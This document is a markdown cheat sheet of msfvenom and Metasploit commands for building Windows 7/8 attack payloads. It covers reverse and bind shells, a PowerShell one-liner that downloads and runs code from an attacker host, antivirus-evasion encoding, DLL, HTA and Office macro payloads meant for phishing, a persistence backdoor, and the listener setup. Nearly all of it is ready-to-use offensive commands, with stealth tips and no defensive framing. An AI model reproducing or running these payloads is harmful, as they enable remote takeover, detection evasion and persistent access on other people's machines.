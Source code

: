 For Windows 7 and 8, you can generate multiple **msfvenom** payloads depending on whether you want a **reverse shell**, **bind shell**, or a **staged/stageless Meterpreter** payload. Below are different payloads categorized for your needs.

---

## **1. Reverse Shell Payloads**
These payloads connect back to your attacker's machine (**LHOST** = your IP).  

### **Meterpreter Reverse TCP (Staged)**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=4444 -f exe > shell.exe
```
- **Pros:** Stable, supports post-exploitation modules.
- **Cons:** May be detected by AV.

### **Meterpreter Reverse HTTP**
```
msfvenom -p windows/meterpreter/reverse_http LHOST=<Your_IP> LPORT=8080 -f exe > shell.exe
```
- **Pros:** Evades some firewalls using HTTP.
- **Cons:** Slightly slower than TCP.

### **Meterpreter Reverse HTTPS**
```
msfvenom -p windows/meterpreter/reverse_https LHOST=<Your_IP> LPORT=443 -f exe > shell.exe
```
- **Pros:** Encrypted communication to evade detection.
- **Cons:** Slightly higher latency.

### **Stageless Meterpreter Reverse TCP**
```
msfvenom -p windows/meterpreter_reverse_tcp LHOST=<Your_IP> LPORT=4444 -f exe > shell.exe
```
- **Pros:** Single-stage (faster execution).
- **Cons:** Larger file size.

---

## **2. Bind Shell Payloads**
These payloads **open a port on the target** machine, and you connect to it.

### **Windows Bind Shell (Staged)**
```
msfvenom -p windows/shell/bind_tcp LPORT=4444 -f exe > bind.exe
```
- **Pros:** No need for an attacker’s IP.
- **Cons:** Might be blocked by firewalls.

### **Windows Bind Shell (Stageless)**
```
msfvenom -p windows/shell_bind_tcp LPORT=4444 -f exe > bind.exe
```
- **Pros:** No need for an external IP.
- **Cons:** Less stealthy.

---

## **3. Powershell Payloads (Fileless)**
These payloads execute **in memory** (useful for bypassing AV).

### **Powershell Reverse Shell**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=4444 -f psh-cmd > shell.ps1
```
To execute on the target:
```
powershell -ExecutionPolicy Bypass -File shell.ps1
```

### **Powershell One-Liner**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=4444 -f psh > shell.txt
```
Execute it using:
```
powershell -ExecutionPolicy Bypass -Command "iex(New-Object Net.WebClient).DownloadString('http://<Your_IP>/shell.txt')"
```

---

## **4. Encoded Payloads (Bypassing AV)**
If AV is detecting the payload, try encoding it:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe > encoded.exe
```
- **`-e x86/shikata_ga_nai`**: Encodes the payload.
- **`-i 10`**: Increases encoding iterations.

For further AV evasion, consider using a custom packer (Veil-Evasion, Shellter, or manual obfuscation).

---

## **5. DLL & HTA Payloads (Alternative Execution)**
### **DLL Payload**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=4444 -f dll > exploit.dll
```
Can be injected into a process using `rundll32.exe`.

### **HTA (HTML Application) Payload**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=4444 -f hta-psh > exploit.hta
```
Delivered via phishing or social engineering.

---

## **6. Macro-Based Payload (For Office Documents)**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=4444 -f vba > macro.txt
```
Insert the macro into a Microsoft Office document.

---

## **7. Persistent Backdoor**
To maintain access, use:
```
run persistence -U -i 5 -p 4444 -r <Your_IP>
```
- **`-U`**: Runs at user login.
- **`-i 5`**: Reconnects every 5 seconds.
- **`-p 4444`**: Uses port 4444.

---

## **8. Listening for Connections (Handler)**
After generating the payload, set up the **Metasploit listener**:
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <Your_IP>
set LPORT 4444
set ExitOnSession false
exploit -j
```

---

### **Which One Should You Use?**
- **Windows 7 (no AV):** `windows/meterpreter/reverse_tcp`
- **Windows 7 (with AV):** Encoded payload or `reverse_https`
- **Windows 8 (firewalled):** `reverse_http` or `reverse_https`
- **Stealthy attack:** PowerShell payloads or macro-based payloads
